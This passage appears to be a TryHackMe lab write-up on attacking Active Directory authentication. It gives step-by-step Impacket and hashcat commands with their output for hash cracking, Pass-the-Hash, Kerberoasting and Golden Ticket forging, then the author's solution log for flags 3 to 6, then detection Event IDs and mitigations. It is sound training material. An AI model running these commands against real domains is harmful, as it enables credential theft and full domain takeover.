root@tryhackme:$ smbclient.py "thm.loc/phillip:<RECOVERED_PASSWORD>"@192.168.11.51
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Type help for list of commands
# 
```

Once connected, navigate to the `SHARE3` share and retrieve `flag3.txt`.

#### Pass-the-Hash

Even if a password cannot be cracked, the hash itself can often be used directly for authentication. This is known as a **Pass-the-Hash** (PtH) attack. Because NTLM authentication uses the password hash directly in the challenge-response process, an attacker who obtains a user's NTLM hash doesn't actually need to know the plaintext password, they can authenticate using the hash alone.

This is particularly dangerous because even strong, uncrackable passwords offer no protection against PtH if an attacker can obtain the hash. Hashes can be extracted from memory on compromised systems using tools like Mimikatz, or obtained through techniques like NTLM relay attacks.

**Why This Works**: The NTLM protocol uses the hash directly in its challenge-response mechanism. The actual plaintext password is never used after the initial hashing. As a result, possessing the hash is functionally equivalent to knowing the password when authenticating via NTLM.

**Practical Demonstration**:

You have obtained the NTLM hash for the user ben:

```text
63CF41DC25C04B8FB79E44B1DEF12C10
```

Unlike the previous example, you do not need to crack this hash. Impacket's tools support Pass-the-Hash authentication directly. Use `smbclient.py` with the `-hashes` parameter:

```bash
root@tryhackme:$ smbclient.py thm.loc/ben@192.168.11.51 -hashes aad3b435b51404eeaad3b435b51404ee:63CF41DC25C04B8FB79E44B1DEF12C10
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Type help for list of commands
#
```

Note the format for the `-hashes` parameter: `LM_hash:NTLM_hash`. Since LM hashes are rarely used in modern environments, we provide the empty LM hash value `aad3b435b51404eeaad3b435b51404ee`, followed by the actual NTLM hash.

Once authenticated, navigate to the `SHARE4` share and retrieve `flag4`.txt.

#### Kerberoasting

Kerberoasting is an attack that targets service accounts in AD. When a user requests access to a service, they receive a Service Ticket (TGS-REP) that is encrypted with the service account's password hash. Any authenticated domain user can request these service tickets for any service in the domain, even services they don't actually need to access.

The attack works because the encrypted portion of the service ticket can be extracted and cracked offline. If the service account has a weak password, an attacker can recover it and gain access to the service account. Service accounts often have elevated privileges, making this attack particularly valuable for privilege escalation.

**Why This Works**: Service tickets are encrypted using the service account's password hash and can be requested by any authenticated user. Since the encryption is performed with RC4 or AES, the tickets can be subject to offline password cracking. Service accounts often have weak or unchanged passwords because they are not rotated regularly like user passwords.

**Practical Demonstration**:

First, you need to identify service accounts that have registered SPNs. Let's use Claire's account with Impacket's `GetUserSPNs.py` to enumerate these accounts:

```bash
root@tryhackme:$ GetUserSPNs.py thm.loc/claire:'Password123!' -dc-ip 192.168.11.100 -request
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------  -----------  --------  --------------------------  --------------------------  ----------
http/svc_print.thm.loc  svc_printer            2026-02-08 17:13:08.795049  2026-04-30 11:14:01.157692             


$krb5tgs$23$*svc_printer$THM.LOC$thm.loc/svc_printer*$a8cee6d54955985f574fcdf1[...]
```

This will display any service accounts with registered SPNs and automatically request their service tickets. The output will include the ticket in a format ready for cracking with Hashcat.

Save the service ticket hash to a file called `service_ticket.txt`. The hash will be in Hashcat format and will begin with `$krb5tgs$23$`.

Use Hashcat in mode `13100` to crack Kerberos TGS-REP tickets:

```bash
root@tryhackme:$ hashcat -m 13100 service_ticket.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1-66-g6a419d06) starting...
```

Once cracked, you will recover the password for the service account `svc_printer`. Use this account to authenticate to the file share:

```bash
root@tryhackme:$ smbclient.py "thm.loc/svc_printer:<RECOVERED_PASSWORD>"@192.168.11.51
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Type help for list of commands
# 
.
```

Navigate to the `SHARE5` share and retrieve `flag5.txt`.

#### Golden Ticket

The most powerful authentication attack in AD is the Golden Ticket attack. This attack involves forging Kerberos TGTs by using the password hash of the KRBTGT account. Since the KRBTGT account is responsible for signing all TGTs in the domain, an attacker who obtains this hash can create valid tickets for any user in the domain, including Domain Admins, without needing their actual credentials.

Golden Tickets are incredibly dangerous because they provide complete domain control and can be used even after the original compromise vector has been patched. The tickets remain valid until the KRBTGT password is reset twice (since the previous password is also cached).

**Why This Works**: All Kerberos TGTs are encrypted and signed using the KRBTGT account's password hash. If an attacker obtains this hash, they can forge tickets that the domain controllers will accept as legitimate. The forged tickets can grant any level of access and are virtually indistinguishable from legitimate tickets.

**Practical Demonstration**:

You have obtained the KRBTGT hash for the domain:

```text
KRBTGT Hash: e9a9871b93d7b4d73c91665bd6df6e50
Domain SID: S-1-5-21-990021728-513958382-3715561918
```

Use Impacket's `ticketer.py` to forge a Golden Ticket for the Domain Administrator:

```bash
root@tryhackme:$ ticketer.py -nthash e9a9871b93d7b4d73c91665bd6df6e50 -domain-sid S-1-5-21-990021728-513958382-3715561918 -domain thm.loc Administrator
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for thm.loc/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```

This will create a file called `Administrator.ccache` containing the forged TGT. Export this as your Kerberos credential cache:

```bash
root@tryhackme:$ export KRB5CCNAME=Administrator.ccache
```

Now you can authenticate to the file share as the Domain Administrator using Kerberos authentication:

```bash
root@tryhackme:$ smbclient.py thm.loc/Administrator@SERVER1.thm.loc -k -no-pass -dc-ip 192.168.11.100
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Type help for list of commands
#
```

Remember that when using Kerberos authentication, you must use the hostname rather than the IP address. Navigate to the `SHARE6` share and retrieve `flag6.txt`.

---------------------------------------------------------------------------

#### What is the value of Flag 3 that you can recover from SHARE3 by cracking the hash?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ hashcat -m 1000 939B0058BC6DD834ABC4CC08CFEFEA69 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

939b0058bc6dd834abc4cc08cfefea69:secret12!                
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 939b0058bc6dd834abc4cc08cfefea69
Time.Started.....: Thu Aug 20 15:03:24 2026 (2 secs)
Time.Estimated...: Thu Aug 20 15:03:26 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2299.1 kH/s (0.21ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3923968/14344385 (27.36%)
Rejected.........: 0/3923968 (0.00%)
Restore.Point....: 3919872/14344385 (27.33%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: seemonsmsm -> seciocastor2
Hardware.Mon.#1..: Util: 18%

Started: Thu Aug 20 15:03:20 2026
Stopped: Thu Aug 20 15:03:27 2026

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ impacket-smbclient thm.loc/phillip:'secret12!'@$TARGET_IP
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use SHARE3
# ls
drw-rw-rw-          0  Sun Feb  8 15:58:42 2026 .
drw-rw-rw-          0  Sun Feb  8 15:58:42 2026 ..
-rw-rw-rw-         41  Sun Feb  8 15:58:42 2026 flag3.txt
# get flag3.txt
# exit

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ cat flag3.txt 
THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

#### What is the value of Flag 4 that you can recover from SHARE4 by performing a Pass-the-Hash attack?

```powershell
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ impacket-smbclient thm.loc/ben@$TARGET_IP -hashes :63CF41DC25C04B8FB79E44B1DEF12C10
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use SHARE4
# get flag4.txt
# exit

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ cat flag4.txt 
THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

#### What is the value of Flag 5 that you can recover from SHARE5 by authenticating using the credentials recovered through the Kerberoast attack?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ impacket-GetUserSPNs -dc-ip $DC_IP -outputfile tgtrep_hashes.txt thm.loc/claire:'Password123!'         
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  -----------  --------  --------------------------  ---------  ----------
http/svc_print.thm.loc  svc_printer            2026-02-08 18:13:08.795049  <never>               


┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ hashcat -m 13100 tgtrep_hashes.txt /usr/share/wordlists/rockyou.txt              
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*svc_printer$THM.LOC$thm.loc/svc_printer*$9a7089f65b2e0952d6e18b871ccf133f$b83c6b2c79601cbe9a499ce021929e723286018b9de965ecda7fbfa9028c31bf4b47a72c28217ca0428caa33c89f650e5675508aad3097f519b52b9be70013587348378ab8d2c0484af4a12f51e7bbf724a358668e58c11f9c791a98c4840fd4f7f69fcf106c864fcdd3dbece84afa77f39ecd9f73de84fdee2accd936522cc9856b681498e8ba58c4797859e11a830ccbf4199a1e4788600a0aedb85c522742cc177b9c51c52923ca8bb2f844f34d8e2364a4a73895295025be424ab61b0c3917800e9fb194e02e5a85556e0bf29ab8627fadb87f8e5471e313fadb2d649daf7e29a69f593b1059e239da2a9654336f990fe9bf6188c08c8bf28de65df21718b9e1e8f7cd2fbfd352a6e6900bafe1101e0818fa212e631c0ab0c1b5d2fa4eab0d7940ccb6e0f5e76d667a996b1d1e2d4ab045cd5a227794a5ba62f53140180fc22dab2a3bf36dc66d7cc5d409af0d89722741bc39e46e1850388bce3601748607d9d69388e8805b517091fed5d1a25e2f2e1fdbb1b0327a3306a8c5c9c4c41ad041c8792000e98a6e4548db3328492a9ad5dc4b02941e45432f18c89fc5095d05ff77be0f67b3359fda1c97bf4a5f627e9351759c988651d596c4b32dd101874e17153aa9fe570d47257776cddbacab49be40897f541657fdf9554b3a2f8f2ba6b261649adb62465ff2479cc46953b13fe0b6677386038af095fc7cda02e7717aaaa82857194fcd2006e582798c024451911f43600f3f6ca0d4a808d5cb14d0ed6d8afcf0f653876c550393ef77a950f3f8a54804966339d6d2fba566662781df2aee2a4da5ea6ba8805abe3a493fc61cc3f9b0718c6de1923cc038137869409e9bdea4abbce5f2b349632dd124e685452efe0ab23b736e36ea421eddec8563c9063d5ad90030ffe138f4cfad2c18efa74cf715972ede0dd433bb539f6c9fa74b3b5490dd20a7a250c3b5857a34a52f8ecf8ac43d4d7c0624a9a7337ed1ecf363eb90397db8251ccc870fbadd8beea8a7d86fce89e6306de5a7ca8c03bf66dcff12e6dd4438f73ea64ce3a082ddfb800594944a7023782174c85954cb4d68f50dd28abb1761da8c95e4f37c9803eff176cfbd0ac72617f958bfa9a6795aa38ee504fa8a748a7d67631d503b039c7e818acc660b39788cff1171f021de93fb91352ca74c220f88cb81f0afd76cd34ce9dd7a69f43adc06f6e594b54b2a84e6bce3745ef14431864c7477b522e621d5fda7eb67ada69be008365172c77209fda28c0c2170d8e1066da9b307d949feccfc031af79f579c10dcc60a9f7581edfebd4ff0aa5da658b43b81a89286:password1!
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*svc_printer$THM.LOC$thm.loc/svc_printe...a89286
Time.Started.....: Thu Aug 20 15:18:05 2026 (0 secs)
Time.Estimated...: Thu Aug 20 15:18:05 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1406.7 kH/s (1.34ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 131072/14344385 (0.91%)
Rejected.........: 0/131072 (0.00%)
Restore.Point....: 126976/14344385 (0.89%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 321984 -> kovacs
Hardware.Mon.#1..: Util: 15%

Started: Thu Aug 20 15:18:04 2026
Stopped: Thu Aug 20 15:18:07 2026

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ impacket-smbclient thm.loc/svc_printer:'password1!'@$TARGET_IP                               
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use SHARE5
# get flag5.txt
# exit

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ cat flag5.txt
THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

#### What is the value of Flag 6 that you can recover from SHARE6 by creating a Golden Ticket?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ impacket-ticketer -nthash e9a9871b93d7b4d73c91665bd6df6e50 -domain-sid S-1-5-21-990021728-513958382-3715561918 -domain thm.loc Administrator
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for thm.loc/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ export KRB5CCNAME=Administrator.ccache

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ impacket-smbclient thm.loc/Administrator@@SERVER1.thm.loc -k -no-pass -dc-ip $DC_IP
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use SHARE6
# get flag6.txt
# exit

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ cat flag6.txt
THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------

### Task 6: Detections & Mitigations

Windows logs a security event for every authentication attempt, and knowing which Event IDs to look for is what separates a detected attack from an undetected one. This task maps the key events to the attacks covered in the previous tasks, and pairs each with a practical mitigation.

#### Key Windows Event IDs

|Event ID|Log|Description|
|----|----|----|
|4624|Security|Successful logon: check Authentication Package and Logon Type|
|4625|Security|Failed logon, useful for detecting password spraying|
|4768|Security|Kerberos TGT requested|
|4769|Security|Kerberos service ticket requested; key for Kerberoasting detection|
|4771|Security|Kerberos pre-authentication failed; useful for detecting AS-REP Roasting and brute force|

#### Detecting NTLM-Based Attacks

Event ID **4624** is logged on the target server for every successful logon. When NTLM is used, several fields stand out:

- **Authentication Package**: `NTLM`, while Kerberos logons show `Kerberos` in the same field.
- **Logon Type**: `3`, indicating a network logon, typical for Pass-the-Hash via WinRM or SMB.
- **Source Network Address**: `blank`. When the DC validates a NTLM logon, the resulting 4624 event often lacks a source IP address, making attribution harder. The equivalent Kerberos events (4768/4769) do populate the client address field.

A network logon using NTLM against a high-value target like a Domain Controller is a strong indicator of a Pass-the-Hash attempt.

#### Detecting Kerberoasting

Event ID **4769** is generated each time a service ticket is requested. Kerberoasting produces a spike of 4769 events in a short window, often targeting multiple service accounts. Two things to look for:

- High volume of 4769 events from a single account in a short time.
- **Ticket Encryption Type**: `0x17` (RC4-HMAC), where modern environments issue AES-256 tickets (`0x12`) by default. An RC4 ticket request from an account that supports AES may indicate a deliberate downgrade to make offline cracking faster.

Event ID **4771** (Kerberos pre-authentication failed) is also worth monitoring. A spike of 4771 events across many accounts in a short window can indicate AS-REP Roasting, where an attacker tests which accounts have pre-authentication disabled, or a brute-force attempt against domain accounts.

#### Mitigations

|Attack|Mitigation|
|----|----|
|Pass-the-Hash|Add privileged accounts to the Protected Users group; disable NTLM where Kerberos is available|
|NTLM Relay|Enforce SMB signing; enable Extended Protection for Authentication (EPA) on LDAP and AD CS|
|Kerberoasting|Use strong, random passwords for service accounts or migrate to Group Managed Service Accounts (gMSA)|
|Golden Ticket|Protect the KRBTGT account; reset its password twice after any suspected compromise|
|Password Spray|Configure account lockout policies; monitor Event ID 4625 for repeated failures across accounts|

---------------------------------------------------------------------------

#### Which Event ID is logged when a Kerberos TGT is requested?

Answer: `4768`

#### In a Pass-the-Hash attack detected via Event ID 4624, what value appears in the Authentication Package field?

Answer: `NTLM`

---------------------------------------------------------------------------

### Task 7: Conclusion

In this room, you have learned about authentication in AD environments. To summarise, we covered:

- The difference between authentication and authorisation in AD
- How NTLM and Kerberos authentication protocols work at a high level
- The inherent weaknesses in both protocols that make them vulnerable to attack
- Practical exploitation of weak password hashing, Pass-the-Hash, Kerberoasting, and Golden Ticket attacks
- Key Windows Event IDs for detecting authentication attacks and mitigations for each technique

Understanding how authentication works and where it can be exploited is fundamental to both attacking and defending AD environments. These techniques represent common attack paths used in real-world engagements to progress from initial access to domain compromise.

---------------------------------------------------------------------------

For additional information, please see the references below.

## References

- [Active Directory - Wikipedia](https://en.wikipedia.org/wiki/Active_Directory)
- [Authentication - Wikipedia](https://en.wikipedia.org/wiki/Authentication)
- [Authorization - Wikipedia](https://en.wikipedia.org/wiki/Authorization)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [Hashcat - Homepage](https://hashcat.net/hashcat/)
- [Hashcat - Kali Tools](https://www.kali.org/tools/hashcat/)
- [Hashcat - Wiki](https://hashcat.net/wiki/)
- [Impacket - GitHub](https://github.com/fortra/impacket)
- [Impacket - Homepage](https://www.coresecurity.com/core-labs/impacket)
- [Impacket - Kali Tools](https://www.kali.org/tools/impacket/)
- [Impacket-scripts - Kali Tools](https://www.kali.org/tools/impacket-scripts/)
- [Kerberos (protocol) - Wikipedia](https://en.wikipedia.org/wiki/Kerberos_(protocol))
- [NTLM - Wikipedia](https://en.wikipedia.org/wiki/NTLM)
- [OpenVPN - Wikipedia](https://en.wikipedia.org/wiki/Openvpn)
- [Pass the hash - Wikipedia](https://en.wikipedia.org/wiki/Pass_the_hash)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [tee - Linux manual page](https://man7.org/linux/man-pages/man1/tee.1.html)
